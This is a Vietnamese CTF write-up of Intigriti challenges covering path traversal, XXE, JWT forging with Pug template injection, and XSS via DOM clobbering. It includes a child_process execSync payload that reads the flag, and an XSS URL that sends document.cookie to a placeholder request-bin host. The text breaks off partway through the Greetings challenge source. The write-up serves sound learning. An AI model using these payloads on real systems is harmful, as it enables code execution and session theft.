Giải này mình đánh với team aespaFanClub và đạt top 70 thế giới nên nhận được bounty nhỏ hehe 


| Category | Challenge Name | Difficulty |
| -------- | -------------- | ---------- |
| Osint      | Lost Program  | Very Easy |
| Pwn      | BabyFlow | Very Easy |
| Web      | Pizza Paradise | Easy |
| Web      | Biocorp | Easy |
|Misc|Quick Recovery|Easy
| Misc      | Triage Bot v2 | Easy |
| Web      | Cat Club | Medium |
| Web      | Safe Notes 2.0 | Medium |
| Web      | Greetings | Medium |
| Web      | Sushi Search | Quite Hard |
| Web      | Global Backups | Hard |
## Lost Program




#### Hints

* No hint

#### Solution

Sau khi vào trang mình tìm những keyword liên quan đến todo như kiwi, bug, game và có một program có cả 3 keyword đó

Truy cập vào trang và mình có tên company cần tìm

Flag : INTIGRITI{ninja_kiwi_games}

## BabyFlow



#### Source

https://drive.google.com/file/d/1dcY6ek9Pj-bUg4OxYG2-AyTMIOZUpGPU/view?usp=sharing

#### Hints

* Buffer overflow

#### Solution

Sau khi đọc file babyflow bằng IDA mình nhận được hàm main như sau



Ở đây có hai điều kiện để có flag là chuỗi s nhập vào có 16 ký tự đầu trùng với **SuPeRsEcUrEPaSsWoRd123** và biến **v5** khác 0


Nên mình sẽ nhập 16 ký tự đầu trùng với yêu cầu và chuỗi sau để buffer overflow xuống v5



Flag : INTIGRITI{b4bypwn_9cdfb439c7876e703e307864c9167a15}


## Pizza Paradise



#### Hints

* Path traversal

#### Solution

Trang web yêu cầu đọc một thứ gì đó được ẩn trong web này


Mình thử dirsearch trang web này và có thấy 2 file có thể vào được


Vì login.php chặn quyền truy cập nên mình xem thử file robots.txt và cũng bị chặn bởi một file secret_172346606e1d24062e891d537e917a90.html


Vào thử file trên và bắt chúng ta phải đăng nhập 


Mình thử bật devtool lên và xem được 2 file này






Có lẽ là username là agent_1337 và mật khẩu đã được mã hoá sha256 nên mình sẽ thực hiện crack password trên


Sau khi có được mật khẩu là intel420, mình đăng nhập vào và đến được 1 trang download ảnh như sau



Mình thử tài xuống một ảnh và nhận được request như sau

Sau khi thử gửi request để lấy file /etc/passwd thì mình xác nhận trang web này đã dính lỗi path traversal


Mình thử truy cập vào các file trước và đã có flag tại file top secret



Flag : INTIGRITI{70p_53cr37_m15510n_c0mpl373}

## BioCorp



#### Source
https://drive.google.com/file/d/1B9AMaY2-SG8MwUwvoDGKXxWDJaWUZjQN/view?usp=sharing

#### Hints

* XML external entity

#### Solution

Sau khi đọc hết source code của web thì mình thấy ba điều 

* File flag.txt được đặt trong file system



* Server sẽ đọc và load XML trong input của request



* Server sẽ trả ra các thông tin đã được load từ XML



Từ đây mình có ý tưởng là sẽ đọc file /flag.txt từ XML và load vào PHP để đọc

Đầu tiên mình vào trang panel.php và bị chặn 



Mình đọc lại file và thấy để request được thì phải là POST request, có header X-BIOCORP-VPN có giá trị 80.187.61.102, có header CONTENT-TYPE là application/xml và phía dưới sẽ có input dạng XML



Nên mình sửa lại thành request như sau


Sau khi chạy chúng ta thấy các trường thông tin từ XML đã được load vào trang 


    
Từ đây ta sẽ sử dụng xxe để đọc file /flag.txt



Và chúng ta đã có được flag



Flag :
INTIGRITI{c4r3ful_w17h_7h053_c0n7r0l5_0r_7h3r3_w1ll_b3_4_m3l7d0wn}

## Quick Recovery



#### Source
https://drive.google.com/file/d/1yVnv3QzzBJn8FGedbhvmP6EL7J6xgNgB/view?usp=sharing

#### Hints

* Brute force 

#### Solution

Đề bài cho mình một file ảnh và một file python như sau



<details><summary>gen.py</summary>
    
```python
from PIL import Image, ImageDraw
from itertools import permutations
import subprocess

qr_code_image = Image.open("qr_code.png")
width, height = qr_code_image.size
half_width, half_height = width // 2, height // 2

squares = {
    "1": (0, 0, half_width, half_height),
    "2": (half_width, 0, width, half_height),
    "3": (0, half_height, half_width, height),
    "4": (half_width, half_height, width, height)
}


def split_square_into_triangles(img, box):
    x0, y0, x1, y1 = box
    a_triangle_points = [(x0, y0), (x1, y0), (x0, y1)]
    b_triangle_points = [(x1, y1), (x1, y0), (x0, y1)]

    def crop_triangle(points):
        mask = Image.new("L", img.size, 0)
        draw = ImageDraw.Draw(mask)
        draw.polygon(points, fill=255)
        triangle_img = Image.new("RGBA", img.size)
        triangle_img.paste(img, (0, 0), mask)
        return triangle_img.crop((x0, y0, x1, y1))

    return crop_triangle(a_triangle_points), crop_triangle(b_triangle_points)


triangle_images = {}
for key, box in squares.items():
    triangle_images[f"{key}a"], triangle_images[f"{key}b"] = split_square_into_triangles(
        qr_code_image, box)

a_order = ["1", "2", "3", "4"]  # UPDATE ME
b_order = ["1", "2", "3", "4"]  # UPDATE ME

final_positions = [
    (0, 0),
    (half_width, 0),
    (0, half_height),
    (half_width, half_height)
]

reconstructed_image = Image.new("RGBA", qr_code_image.size)

for i in range(4):
    a_triangle = triangle_images[f"{a_order[i]}a"]
    b_triangle = triangle_images[f"{b_order[i]}b"]
    combined_square = Image.new("RGBA", (half_width, half_height))
    combined_square.paste(a_triangle, (0, 0))
    combined_square.paste(b_triangle, (0, 0), b_triangle)
    reconstructed_image.paste(combined_square, final_positions[i])

reconstructed_image.save("obscured.png")
print("Reconstructed QR code saved as 'obscured.png'")

```

</details>


Có lẽ đề muốn mình sắp xếp lại ảnh để scan ra flag qua hai biến a_order và b_order

Sau một hồi brute force thì mình nhận ra a_order là sắp xếp của 4 tam giác trái trên và b_order là ngược lại nên mình sắp xếp lại như sau



Và có được QR hoàn chỉnh như sau



Flag : INTIGRITI{7h475_h0w_y0u_r3c0n57ruc7_qr_c0d3}

## Triage Bot v2




#### Hints

* No hint

#### Solution

Bài này mình sẽ vào discord của BTC và tìm một tính năng mới của bot



Sau khi thử lệnh read_report thì cần yêu cầu phải có role triage

Nên mình sẽ mời bot này về server riêng của mình để cấp role và chạy lại



Sau khi chạy với role triage thì mình nhận được thông tin của một CVE ngẫu nhiên và với một CVE có 1 id ngẫu nhiên

Sau đó mình brute force các id của CVE và nhận được flag khi có id là 0



Flag : INTIGRITI{4n07h3r_y34r_4n07h3r_7r1463_b07}

## Cat Club



#### Source

https://drive.google.com/file/d/1exDMJIHVMS4oBx_zfiDIdy5auxZCnSuS/view?usp=sharing

#### Hints

* SSTI and JWT attacker

#### Solution

Bài này cho ta một trang web sau : 


Mình thử đăng ký vào trang web này



Mở thử devtools và phát hiện trang web sử dụng JWT để quản lý 




Sau khi đọc hết source code thì mình để ý đến 2 router này : 


<details>
    <summary>/jwks.json</summary>
    
```js
router.get("/jwks.json", async (req, res) => {
    try {
        const publicKey = await fsPromises.readFile(path.join(__dirname, "..", "public_key.pem"), "utf8");
        const publicKeyObj = crypto.createPublicKey(publicKey);
        const publicKeyDetails = publicKeyObj.export({ format: "jwk" });

        const jwk = {
            kty: "RSA",
            n: base64urlEncode(Buffer.from(publicKeyDetails.n, "base64")),
            e: base64urlEncode(Buffer.from(publicKeyDetails.e, "base64")),
            alg: "RS256",
            use: "sig",
        };

        res.json({ keys: [jwk] });
    } catch (err) {
        res.status(500).json({ message: "Error generating JWK" });
    }
});
```
    
</details>

Mình thử truy cập vào router này và nhận được  json sau : 



<details>
    <summary>keys</summary>
    
```json
{
  "keys": [
    {
      "kty": "RSA",
      "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
      "e": "AQAB",
      "alg": "RS256",
      "use": "sig"
    }
  ]
}
```
    
</details>

Nói về JWK thì đây là một đoạn JSON chứa thông tin của một key https://datatracker.ietf.org/doc/html/rfc7517
Vậy là public_key đã bị mã hóa thành JWK nên ta sẽ chuyển đổi lại thành file pem để sử dụng JWT 
Mình sẽ sử dụng đoạn code sau để decode JWK trên : 
<details>
    <summary>decode.py</summary>

```python
import base64
from Crypto.Util.number import bytes_to_long, long_to_bytes
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers

jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB",
    "alg": "RS256",
    "use": "sig"
}

n = bytes_to_long(base64.urlsafe_b64decode(jwk["n"]+"=="))
e = bytes_to_long(base64.urlsafe_b64decode(jwk["e"]+"=="))

public_key = RSAPublicNumbers(e, n).public_key()

pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

print(pem)
```

</details>

Sau khi chạy thì ta nhận được đoạn public key là
```pem
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw4oPEx+448XQWH/OtSWN
8L0NUDU+rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpat
hL1zf3/Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQz
YcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnR
fT5HJjSRu/JmGlYCrFSof5p/E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t
8opUrLbrJYoWFeYZOY/Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ+H
dwIDAQAB
-----END PUBLIC KEY-----
```


Sau khi tìm được public key mình nghĩ là sẽ liên quan đến khai thác việc thay đổi người dùng và yeah khi nhìn vào endpoint /cats và file pug sau : 

<details>
    <summary>/cats</summary>
    
```js
router.get("/cats", getCurrentUser, (req, res) => {
    if (!req.user) {
        return res.redirect("/login?error=Please log in to view the cat gallery");
    }

    const templatePath = path.join(__dirname, "views", "cats.pug");

    fs.readFile(templatePath, "utf8", (err, template) => {
        if (err) {
            return res.render("cats");
        }

        if (typeof req.user != "undefined") {
            template = template.replace(/guest/g, req.user);
        }

        const html = pug.render(template, {
            filename: templatePath,
            user: req.user,
        });

        res.send(html);
    });
});
```
    
</details>

<details>
    <summary>cats.pug</summary>
    
```pug
extends base

block content
  h1 Welcome to the Cat Gallery, guest!
  p Here you can view our wonderful collection of cats!

  .gallery
    img(src="/images/cat1.jpg", alt="Cat 1", width="300")
    img(src="/images/cat2.jpg", alt="Cat 2", width="300")
    img(src="/images/cat3.jpg", alt="Cat 3", width="300")
    img(src="/images/cat4.jpg", alt="Cat 4", width="300")

  p More adorable cat pictures are being added soon. Stay tuned!
```    

</details>

Để ý dòng **template = template.replace(/guest/g, req.user);** và **h1 Welcome to the Cat Gallery, guest!** thì mình xác nhận trang web đã bị lỗi server side template injection(honestly, lúc đầu chưa biết lỗi của trang web này là gì nhưng nhìn chữ template mới phát hiện ra :)) )

Mình thử decode đoạn JWT của trang web sau khi login thì nhận được như sau

có lẽ trang web sẽ lấy trường username và load vào file cats.pug nên mình thay đổi giá trị lại thành 1+1 để xác nhận 



Sau khi đổi JWT thì ta nhận được số 2 ở phần welcome and ye có lẽ mình đã tìm được bug 


cuối cùng mình sẽ đọc file flag bằng payload sau : 

```jinja2 
#{global.process.mainModule.constructor._load('child_process').execSync('cat /flag*')}
```

Giải thích payload : 
* global.process.mainModule.constructor._load('child_process') sẽ gọi 1 tiến trình con để chạy độc lập với main process 
* execSync để thực thi lệnh linux console
* cat /flag* để đọc file flag, sở dĩ thêm dấu * để đọc được tên file do file flag đã được đổi tên trong Dockerfile 

```dockerfile 
RUN flag_name=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 16) && \
    mv /app/app/flag.txt /flag_$flag_name.txt && \
    chmod 444 /flag_$flag_name.txt && \
    chown root:root /flag_$flag_name.txt
```

https://www.warp.dev/terminus/linux-wildcards#asterisk-and-question-mark-are-the-two-wildcard-characters

Cuối cùng ta thay payload vào nhận được JWT mới thay vào cookie của web để nhận được flag 





Flag : INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}

Bài này mình làm không kịp trong contest do bị choke đoạn cat flag*(ngl i forgot this 😭), nhưng mà mình cũng học được khá nhiều từ bài này và cả contest


Dưới đây là các bài mình làm sau contest bao gồm SafeNotes 2.0, Greetings, Sushi Search, Global Backups 


## SafeNotes 2.0




#### Source

https://drive.google.com/file/d/1vmh0qAFqjTRiXA5GKoKfHGqyNDdMjHQj/view?usp=sharing

#### Hints

Cross Site Scripting (XSS) and Client Side Path Traversal (CPST)

#### Solution

Đề bài cho mình một trang web sau có tính năng bao gồm tạo, lưu trữ và chia sẻ note



Mình thử đăng ký và đăng nhập và được trang web đưa đến trang dashboard sau bao gồm các tính năng sau : 



* Create Note : Nhận content của note và tạo một note có id và bao gồm id của user được lưu trong database

<details>
<summary>/create</summary>

```python=
@main.route('/create', methods=['GET', 'POST'])
@login_required
def create_note():
    form = NoteForm()
    if form.validate_on_submit():
        note = Note(user_id=current_user.id, content=form.content.data)
        db.session.merge(note)
        db.session.commit()
        return redirect(url_for('main.view_note', note=note.id))
    return render_template('create.html', form=form)
``` 
    
</details>

<details>
<summary>class Note</summary>

```python= 
class Note(db.Model):
    id = db.Column(db.String(36), primary_key=True, default=lambda: str(uuid.uuid4()))
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)
    content = db.Column(db.Text, nullable=False)
    user = db.relationship('User', backref=db.backref('notes', lazy=True))
``` 
    
</details>




* View Note : Nhận vào id của note và show ra content của note


<details>
<summary>/view</summary>

```python= 
@main.route('/view', methods=['GET'])
def view_note():
    note_id = request.args.get('note') or ''
    username = current_user.username if current_user.is_authenticated else 'Anonymouse'
    return render_template('view.html', note_id=note_id, username=username)

``` 
</details>




* Contact : Nhận vào name và message để liên hệ 

<details>
<summary>/contact</summary>

```python=
@main.route('/contact', methods=['GET', 'POST'])
def contact():
    form = ContactForm()
    if request.method == 'POST':
        if request.is_json:
            data = request.get_json()
            username = data.get('name')
            content = data.get('content')

            if not username or not content:
                return jsonify({"message": "Please provide both your name and message."}), 400

            return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200

        username = request.form.get('name')
        content = request.form.get('content')

        if not username or not content:
            flash('Please provide both your name and message.', 'danger')
            return redirect(url_for('main.contact'))

        return render_template('contact.html', form=form, msg=f'Thank you for your message, {username}. We will be in touch!')

    return render_template('contact.html', form=form, msg='Feel free to reach out to us using the form below. We would love to hear from you!')

``` 
    
</details>

* Report : Nhận vào 1 url để báo cáo sau đó gọi bot để kiểm tra url

<details>
<summary>/report</summary>

```python= 
@main.route('/report', methods=['GET', 'POST'])
@login_required
def report():
    form = ReportForm()
    if form.validate_on_submit():
        note_url = form.note_url.data
        parsed_url = urlparse(note_url)
        base_url_parsed = urlparse(BASE_URL)

        if not parsed_url.scheme.startswith('http'):
            flash('URL must begin with http(s)://', 'danger')
        elif parsed_url.netloc == base_url_parsed.netloc and parsed_url.path == '/view' and 'note=' in parsed_url.query:
            note_id = parsed_url.query[-36:]
            try:
                if uuid.UUID(note_id):
                    with reporting_lock:
                        if current_user.id in reporting_users:
                            flash(
                                'You already have a report in progress. Please respect our moderation capabilities.', 'danger')
                        else:
                            reporting_users.add(current_user.id)
                            threading.Thread(target=call_bot, args=(
                                note_url, current_user.id)).start()
                            flash('Note reported successfully', 'success')
            except ValueError:
                flash(
                    'Invalid note ID! Example format: 12345678-abcd-1234-5678-abc123def456', 'danger')
        else:
            logger.warning(f"Invalid URL provided: {note_url}")
            flash('Please provide a valid note URL, e.g. ' + BASE_URL +
                  '/view?note=12345678-abcd-1234-5678-abc123def456', 'danger')

        return redirect(url_for('main.report'))

    return render_template('report.html', form=form)
``` 
</details>

<details>
<summary>bot(index.js)</summary>

```js= 
const express = require("express");
const puppeteer = require("puppeteer");
const app = express();
const PORT = 8000;

const FLAG = process.env.FLAG;
const BASE_URL = process.env.BASE_URL || "http://127.0.0.1";

app.use(express.json());

function sleep(s) {
    return new Promise((resolve) => setTimeout(resolve, s));
}

app.post("/visit", async (req, res) => {
    let { url } = req.body;
    if (!url) {
        return res.status(400).json({ error: "URL is required" });
    }

    if (!url.startsWith(BASE_URL)) {
        return res
            .status(400)
            .json({ error: `URL must start with ${BASE_URL}` });
    }

    let browser;
    try {
        browser = await puppeteer.launch({
            headless: true,
            args: [
                '--no-sandbox',
                '--disable-setuid-sandbox',
                '--disable-dev-shm-usage',
                '--disable-accelerated-2d-canvas',
                '--disable-gpu',
                '--window-size=800x600',
            ],
        });
        const page = await browser.newPage();

        await page.setCookie({
            name: "flag",
            value: FLAG,
            url: BASE_URL,
        });

        await page.goto(url, { waitUntil: "networkidle2", timeout: 9999 });

        await sleep(5000);

        await browser.close();
        res.json({ status: "success" });
    } catch (error) {
        console.error(`Error visiting page: ${error}`);
        res.status(500).json({ error: error.toString() });
    } finally {
        if (browser) {
            await browser.close();
        }
    }
});

app.listen(PORT, () => {
    console.log(`Bot service running on port ${PORT}`);
});

``` 
    
</details>

Phân tích các endpoint trên : 
* Trong file index của bot để tạo một tab ảo có thấy flag được đặt trong cookie của tab đó nên mình xác nhận có thể đã bị lỗi xss
* Vậy làm sao để xss từ đây ? Có thể thấy bot sẽ đi vào trang web của một note và kiểm tra. Nên mình thử đưa các payload sau vào note để kiểm tra xss và có được các kết quả : 

```html=
<h1>Hello</h1> world
```
Header tag h1 được thực thi


```html=
<script>alert(123)</script>
```
Tag script biến mất nhưng lệnh không được thực thi



```html=

```

Tag img hiển thị và bị lỗi nhưng lệnh không được thực thi


* Như vậy các payload thực thi lệnh không khả thi thì làm sao để xss ? Nhìn lại file view.html mà chúng ta dùng để xem note nãy giờ thì phát hiện note content của mình đã được DOM purify xử lí nên không thể thực thi lệnh js qua đó mình có ý tưởng xss qua endpoint khác 

<details>
<summary>/view.html</summary>

```jinja2=
 
<h2>View Note</h2>
<p>You can view stored notes here, securely!</p>
<form id="view-note-form" action="{{ url_for('main.view_note') }}" class="note-form">
    <div class="form-group">
        <label for="note-id-input">Enter Note ID:</label>
        <input type="text" name="note_id" id="note-id-input" class="form-control" value="{{ note_id }}" />
    </div>
    <div class="form-group">
        <button type="button" class="btn btn-primary" id="fetch-note-button">
            View Note
        </button>
    </div>
</form>
<div id="note-content-section" style="display: none" class="note-panel">
    <h3>Note Content</h3>
    <div id="note-content" class="note-content"></div>
</div>
<!-- Remember to comment this out when not debugging!! -->
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> -->
<div class="flash-container">
    <div id="flash-message" class="flash-message" style="display: none"></div>
</div>
<div>
    <p>Logged in as: <span id="username">{{ username }}</span></p>
</div>
<script>
    const csrf_token = "{{ csrf_token() }}";

    const urlParams = new URLSearchParams(window.location.search);

    function fetchNoteById(noteId) {
        // Checking "includes" wasn't sufficient, we need to strip ../ *after* we URL decode
        const decodedNoteId = decodeURIComponent(noteId);
        const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, '');
        fetch("/api/notes/fetch/" + sanitizedNoteId, {
            method: "GET",
            headers: {
                "X-CSRFToken": csrf_token,
            },
        })
            .then((response) => response.json())
            .then((data) => {
                if (data.content) {
                    document.getElementById("note-content").innerHTML =
                        DOMPurify.sanitize(data.content);
                    document.getElementById("note-content-section").style.display = "block";
                    showFlashMessage("Note loaded successfully!", "success");
                    // We've seen suspicious activity on this endpoint, let's log some data for review
                    logNoteAccess(sanitizedNoteId, data.content);
                } else if (data.error) {
                    showFlashMessage("Error: " + data.error, "danger");
                } else {
                    showFlashMessage("Note doesn't exist.", "info");
                }
                // Removed the data.debug section, it was vulnerable to XSS!
            });
    }

    function logNoteAccess(noteId, content) {
        // Read the current username, maybe we need to ban them?
        const currentUsername = document.getElementById("username").innerText;
        const username = currentUsername || urlParams.get("name");

        // Just in case, it seems like people can do anything with the client-side!!
        const sanitizedUsername = decodeURIComponent(username).replace(/\.\.[\/\\]/g, '');

        fetch("/api/notes/log/" + sanitizedUsername, {
            method: "POST",
            headers: {
                "Content-Type": "application/json",
                "X-CSRFToken": csrf_token,
            },
            body: JSON.stringify({
                name: username,
                note_id: noteId,
                content: content
            }),
        })
            .then(response => response.json())
            .then(data => {
                // Does the log entry data look OK?
                document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
                document.getElementById("debug-content-section").style.display = "block";
            })
            .catch(error => console.error("Logging failed:", error));

    }

    function isValidUUID(noteId) {
        // Fixed regex so note ID must be specified as expected
        const uuidRegex =
            /^[0-9a-f]{8}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{4}-[0-9a-f]{12}$/i;
        return uuidRegex.test(noteId);
    }

    function validateAndFetchNote(noteId) {
        if (noteId && isValidUUID(noteId.trim())) {
            history.pushState(null, "", "?note=" + noteId);
            fetchNoteById(noteId);
        } else {
            showFlashMessage(
                "Please enter a valid note ID, e.g. 12345678-abcd-1234-5678-abc123def456.",
                "danger"
            );
        }
    }

    document
        .getElementById("fetch-note-button")
        .addEventListener("click", function () {
            const noteId = document
                .getElementById("note-id-input")
                .value.trim();
            validateAndFetchNote(noteId);
        });

    window.addEventListener("load", function () {
        const noteId = urlParams.get("note");
        if (noteId) {
            document.getElementById("note-id-input").value = noteId;
            validateAndFetchNote(noteId);
        }
    });
</script>

``` 
</details>

* Đọc sơ đoạn logNoteAccess có thể thấy nó sẽ fetch /api/notes/log + sanitizedUsername, trong đó sanitizedUsername là để lấy user hiện tại. Nếu user hiện tại là rỗng thì sẽ lấy từ param là name từ đó mình có ý tưởng là path traversal url từ /api/notes/log thành / . Sao để làm được như vậy ? Thì mình sẽ đặt username của web thành "" bằng cách inject html sau vào ```<p id="username"></p>```. 



* Kĩ thuật trên là DOM clobbering là dùng html để tác động js của một trang web. Sau đó chúng ta chỉ cần thêm param name=../../../ là có thể path traversal về / . Khoan ! Để tránh điều trên thì ở hàm fetch có sử dụng ```const sanitizedNoteId = decodedNoteId.replace(/\.\.[\/\\]/g, '');``` để biến các "../" thành "". Để dễ dàng bypass được cái này thì mình sẽ double ../ lên cụ thể sẽ thành ....// qua đó qua hàm replace trên thì ..(../)/ sẽ về ../ cuối cùng ta có param sau ```name=....//....//....// + endpoint```
* Vậy endpoint nào mình sẽ sử dụng ? Có thể thấy chỉ có /contact là lấy thông tin từ url và render ra trường 'name' và nên mình nghĩ có thể tận dụng để truyển vào xss



```python=
if request.is_json:
            data = request.get_json()
            username = data.get('name')
            content = data.get('content')

            if not username or not content:
                return jsonify({"message": "Please provide both your name and message."}), 400

            return jsonify({"message": f'Thank you for your message, {username}. We will be in touch!'}), 200
```

* Okay từ đó mình sẽ thử payload

```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg%20src=x%20onerror=alert(1)%3E```

Sau khi chạy thì mình nhận được lỗi sau 



* Mình tìm error Logging failed và nó ở trong đoạn code này 

```js=
.then(response => response.json())
            .then(data => {
                // Does the log entry data look OK?
                document.getElementById("debug-content").outerHTML = JSON.stringify(data, null, 2)
                document.getElementById("debug-content-section").style.display = "block";
            })
            .catch(error => console.error("Logging failed:", error));
```

* Có lẽ phần debug để tác giả sử dụng nhưng đã bị comment lại khi đưa lên nên mình sẽ uncomment nó trong note 

```js=
<!-- <div id="debug-content-section" style="display:none;" class="note-panel">
    <h3>Debug Information</h3>
    <div id="debug-content" class="note-content"></div>
</div> -->
```



* Sau khi tạo lại note mới và sử dụng payload cũ thì mình nhận được kết quả sau



* Yeah ! Everything works fine. Việc của mình là chỉnh lại payload để fetch cookie từ bot thông qua /report thôi 

```http://127.0.0.1/view?note=<note_id>&name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E```

Kết quả sau khi submit




Well, có vấn đề sau khi mình submit nên mình sẽ đọc lại /report



có thể thấy noteid sẽ lấy 36 ký tự cuối của url nên mình sẽ đổi payload lại là 

```http://127.0.0.1/view?name=....//....//....//contact%3fxss=%3Cimg/src/onerror=fetch(%27<request_bin_server>/?%27%2bdocument.cookie)%3E&note=<note_id>```

Sau khi chạy lại thì mình cũng submit thành công



Kiểm tra server ở đây mình dùng webhook để catch request và nhận được request sau chứa flag 



Flag : INTIGRITI{plz_solve_locally_first_THEN_repeat_on_remote_server}

## Greetings



#### Source

https://drive.google.com/file/d/1b8wDTjOYVZhZRijxaoPRiucseEYJfxFR/view?usp=sharing

#### Hints

Proxy FTP request and CR-LF injection

#### Solution

Đề bài cho mình một trang web sau có chức năng là nhập vào tên và hiển thị tên mà mình vừa nhập





Sau khi mình thử các lỗi xss và ssti không thành công nên mình đọc lại source code và phân tích : 

* Đầu tiên, có 3 services đang chạy bao gồm flask, node và php nhưng chỉ có frontend php được expose ở port 80, các service còn lại được chạy bên trong máy chủ.

<details>
<summary>docker-compose.yml</summary>

```docker-compose
services:
    web:
        build: ./php
        ports:
            - "80:80"
            - "3000"
            - "5000"
        restart: always
    node:
        build: ./node
        restart: always
        network_mode: service:web
    flask:
        build: ./flask
        environment:
            FLAG: INTIGRITI{fake_flag}
        restart: always
        network_mode: service:web
```
    
</details>

* Mình thử xem qua service flask và thấy có hai endpoint test và flag, trong đó /flag yêu cầu password từ header và username trong form đều là "admin" thì mới trả ra flag

<details>
<summary>app.py</summary>
    
```python=
from flask import Flask, request
import os

app = Flask(__name__)


@app.route("/flag", methods=["GET", "POST"])
def flag():
    username = request.form.get("username")
    password = request.headers.get("password")
    if username and username == "admin" and password and password == "admin":
        return os.getenv('FLAG')
    return "So close"


@app.get('/test')
def test():
    return "test"


app.run(host='0.0.0.0', port=5000)

```
    
</details>

* Nhìn qua service express thì mình thấy có một endpoint nhận vào tên sau đó filter và in ra Hello + tên đó. Nhìn khá giống kết quả khi test trên frontend nên mình nghĩ đây là backend của web mà php gửi request đến. 

<details>
<summary>index.py</summary>
    
```js=
const express = require("express");

const app = express();

app.get("*", (req, res) => {
    res.send(`Hello, ${req.path.replace(/^\/+|\/+$/g, "")}`);
});

app.listen(3000, () => {
    console.log(`App listening on port 3000`);
});
```
    
</details>
 
Thêm nữa, input đã được filter bằng hàm **req.path.replace(/^\/+|\/+$/g, "")** để xoá các ký tự "/" ở đầu hoặc cuối request. Hình như filter này dùng để ngăn lỗi liên quan đến path hay gì đó mình cũng không rõ



* Cuối cùng, ta nhìn qua service php và phân tích những thứ thú vị trong file này. Đầu tiên, php nhận vào POST data và gán vào session bao gồm các trường name, protocol, options.


<details>
<summary>index.py</summary>
    
```react=
<?php
if(isset($_POST['hello']))
{
    session_start();
    $_SESSION = $_POST;
    if(!empty($_SESSION['name']))
    {
        $name = $_SESSION['name'];
        $protocol = (isset($_SESSION['protocol']) && !preg_match('/http|file/i', $_SESSION['protocol'])) ? $_SESSION['protocol'] : null;
        $options = (isset($_SESSION['options']) && !preg_match('/http|file|\\\/i', $_SESSION['options'])) ? $_SESSION['options'] : null;
        
        try {
            if(isset($options) && isset($protocol))
            {
                $context = stream_context_create(json_decode($options, true));
                $resp = @fopen("$protocol://127.0.0.1:3000/$name", 'r', false, $context);
            }
            else
            {
                $resp = @fopen("http://127.0.0.1:3000/$name", 'r', false);
            }

            if($resp)
            {
                $content = stream_get_contents($resp);
                echo "<div class='greeting-output'>" . htmlspecialchars($content) . "</div>";
                fclose($resp);
            }
            else
            {
                throw new Exception("Unable to connect to the service.");
            }
        } catch (Exception $e) {
            error_log("Error: " . $e->getMessage());
            
            echo "<div class='greeting-output error'>Something went wrong!</div>";
        }
    }
}
?>


<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Greetings</title>
    
    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css" rel="stylesheet">
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@600&family=Roboto&display=swap" rel="stylesheet">
    <link href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/6.0.0-beta3/css/all.min.css" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/animate.css/4.1.1/animate.min.css">
    <link rel="stylesheet" href="styles.css">
</head>
<body>
<div class="container text-center mt-5 animate__animated animate__fadeInDown">
    <h1 class="title">Welcome to the <span class="highlight">Greetings</span> App</h1>
    
    <form method="POST" class="mt-4">
        <input class="form-control input-field mb-3" name="name" placeholder="Enter your name" />
        <button class="btn btn-primary submit-btn" type="submit" name="hello">
            Say Hello <i class="fas fa-smile"></i>
        </button>
    </form>
    
</div>    
    <script src="https://code.jquery.com/jquery-3.5.1.slim.min.js"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.1/dist/umd/popper.min.js"></script>
